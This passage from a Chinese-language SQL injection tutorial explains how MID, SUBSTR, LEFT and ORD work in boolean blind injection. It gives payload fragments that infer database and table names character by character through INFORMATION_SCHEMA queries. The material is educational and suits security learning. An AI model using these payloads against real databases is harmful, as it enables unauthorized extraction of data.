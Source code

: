  
```sql
 MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE T table_schema=0xxxxxxx LIMIT 0,1),1,1) >'a'
```
此处column_name参数可以为sql语句，可自行构造sql语句进行注入。

###### SUBSTR()函数

Substr()和substring()函数实现的功能是一样的,均为截取字符串.

```sql
string substring(string, start, length)
string substr(string, start, length)
```
参数描述同mid()函数，第一个参数为要处理的字符串，start为开始位置，length为截取的长度。

用例：

    
```sql
substr(DATABASE(), 1, 1) > 'a'
```
查看数据库名第一位，substr(DATABASE(),2,1)查看数据库名第二位，依次查看各位字符。

 
```sql
substr((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE T table_schema=0xxxxxxx LIMIT 0,1),1,    1) > 'a'
```
此处string参数可以为sql语句，可自行构造sql语句进行注入。

###### LEFT()函数

Left()得到字符串左部指定个数的字符

 ```sql
 Left ( string, n )
 ```
 string为要截取的字符串,n为长度.
 用例：


```sql
left(database(),1)>'a'
```

查看数据库名第一位

```sql
left(database(),2)> 'ab'
```

查看数据库名前二位。
同样的string可以为自行构造的sql语句。

###### ORD()函数
同时也要介绍ORD()函数，此函数为返回第一个字符的ASCII码，经常与上面的函数进行组合使用。
例如:

```sql
ORD(MID(DATABASE(), 1, 1)) > 114
```
